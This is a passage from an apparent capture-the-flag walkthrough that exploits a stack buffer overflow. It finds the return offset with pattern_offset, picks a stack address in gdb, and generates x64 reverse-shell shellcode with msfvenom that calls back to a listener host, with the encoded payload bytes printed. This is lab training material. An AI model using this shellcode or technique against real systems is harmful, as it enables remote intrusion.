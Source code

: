       ```
      root@ip-10-10-167-14:~# /opt/metasploit-framework-5101/tools/exploit/pattern_offset.rb -q 4134754133754132
      [*] Exact match at offset 608
      ```
    
5. Before leaving gdb, also take a look at the stack via `x/100x $rsp-700`. Should see something like this:

    ```
    (gdb) x/100x $rsp-700
    0x7fffffffdf6c: 0x00007fff      0x00000012      0x00000000      0xf7dd0760
    0x7fffffffdf7c: 0x00007fff      0x55554934      0x00005555      0xf7a64b62
    0x7fffffffdf8c: 0x00007fff      0xf79e90e8      0x00007fff      0x000003e9
    0x7fffffffdf9c: 0x00000000      0xffffe220      0x00007fff      0x000003e9
    0x7fffffffdfac: 0x00000000      0xffffe320      0x00007fff      0x55554848
    0x7fffffffdfbc: 0x00005555      0x41306141      0x61413161      0x33614132
    0x7fffffffdfcc: 0x41346141      0x61413561      0x37614136      0x41386141
    0x7fffffffdfdc: 0x62413961      0x31624130      0x41326241      0x62413362
    0x7fffffffdfec: 0x35624134      0x41366241      0x62413762      0x39624138
    0x7fffffffdffc: 0x41306341      0x63413163      0x33634132      0x41346341
    0x7fffffffe00c: 0x63413563      0x37634136      0x41386341      0x64413963
    0x7fffffffe01c: 0x31644130      0x41326441      0x64413364      0x35644134
    0x7fffffffe02c: 0x41366441      0x64413764      0x39644138      0x41306541
    0x7fffffffe03c: 0x65413165      0x33654132      0x41346541      0x65413565
    0x7fffffffe04c: 0x37654136      0x41386541      0x66413965      0x31664130
    0x7fffffffe05c: 0x41326641      0x66413366      0x35664134      0x41366641
    0x7fffffffe06c: 0x66413766      0x39664138      0x41306741      0x67413167
    0x7fffffffe07c: 0x33674132      0x41346741      0x67413567      0x37674136
    0x7fffffffe08c: 0x41386741      0x68413967      0x31684130      0x41326841
    0x7fffffffe09c: 0x68413368      0x35684134      0x41366841      0x68413768
    0x7fffffffe0ac: 0x39684138      0x41306941      0x69413169      0x33694132
    0x7fffffffe0bc: 0x41346941      0x69413569      0x37694136      0x41386941
    0x7fffffffe0cc: 0x6a413969      0x316a4130      0x41326a41      0x6a41336a
    0x7fffffffe0dc: 0x356a4134      0x41366a41      0x6a41376a      0x396a4138
    0x7fffffffe0ec: 0x41306b41      0x6b41316b      0x336b4132      0x41346b41
    ```

    Here you can see the test string starting near the top. Pick one of those side addresses further down - this address might work or not, you might need to do some trial and error so keep this output handy. E.g. from the above I tried two, the first failing, before `0x7fffffffe07c` worked for me.
    
6. Get some shell code. One way to make this, which works when you have a lot of space (in binex I had around 1000 bytes, but thats rare) is to use msfvenom. Here I created a reverse shell caller: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.167.14 LPORT=4444 -b '\x00' -f python`. This prints out some python code:

    ```
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    Found 4 compatible encoders
    Attempting to encode payload with 1 iterations of generic/none
    generic/none failed with Encoding failed due to a bad character (index=17, char=0x00)
    Attempting to encode payload with 1 iterations of x64/xor
    x64/xor succeeded with size 119 (iteration=0)
    x64/xor chosen with final size 119
    Payload size: 119 bytes
    Final size of python file: 597 bytes
    buf =  b""
    buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
    buf += b"\xef\xff\xff\xff\x48\xbb\xda\x1d\x37\xc7\xb5\x95\x34"
    buf += b"\x41\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
    buf += b"\xb0\x34\x6f\x5e\xdf\x97\x6b\x2b\xdb\x43\x38\xc2\xfd"
    buf += b"\x02\x7c\xf8\xd8\x1d\x26\x9b\xbf\x9f\x93\x4f\x8b\x55"
    buf += b"\xbe\x21\xdf\x85\x6e\x2b\xf0\x45\x38\xc2\xdf\x96\x6a"
    buf += b"\x09\x25\xd3\x5d\xe6\xed\x9a\x31\x34\x2c\x77\x0c\x9f"